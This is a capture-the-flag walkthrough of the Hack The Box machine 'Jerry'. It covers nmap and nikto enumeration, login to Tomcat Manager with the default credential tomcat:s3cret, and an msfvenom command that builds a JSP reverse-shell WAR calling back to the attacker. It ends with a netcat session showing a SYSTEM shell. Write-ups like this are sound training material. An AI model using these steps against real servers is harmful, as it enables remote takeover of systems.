


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.95 |  | [Jerry](https://app.hackthebox.com/machines/jerry) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV 10.10.10.95   

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 21:16 EST
Nmap scan report for 10.10.10.95
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.19 seconds
```

Nmap reveals Apache Tomcat version 7.0.88 (outdated) running on the target machine. The login path to Apach Tomcat Manager is `/manager/html` and we will look to exploit potential misconfigurations such as default credentials or open proxy. Failed login redirects us to a status 403 access denied page that provides a credential as an example. Running nikto confirms that the default credential of `tomcat:s3cret` gives us access to the Tomcat Manager Application.

```
nikto -host 10.10.10.95:8080        

- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2025-01-14 21:27:36 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /favicon.ico: identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community. See: https://en.wikipedia.org/wiki/Favicon
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2104
+ /manager/html: Default account found for 'Tomcat Manager Application' at (ID 'tomcat', PW 's3cret'). Apache Tomcat. See: CWE-16
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found.
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected).
+ /manager/status: Tomcat Server Status interface found (pass protected).
+ 8148 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2025-01-14 21:39:01 (GMT-5) (685 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```



Using `msfvenom`, we generate a WAR file containing a reverse shell payload. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f war > shell.war
```

We upload the WAR file via Tomcat Manager and deploy file.



Once deployed, we start a netcat listener and trigger the reverse shell by visting `http://10.10.10.95:8080/shell/`. The established connection grants us `root` user.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [Your_IP] from (UNKNOWN) [10.10.10.95] 49194
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

The user and root flags were in `C:\Users\Administrator\Desktop\flags`.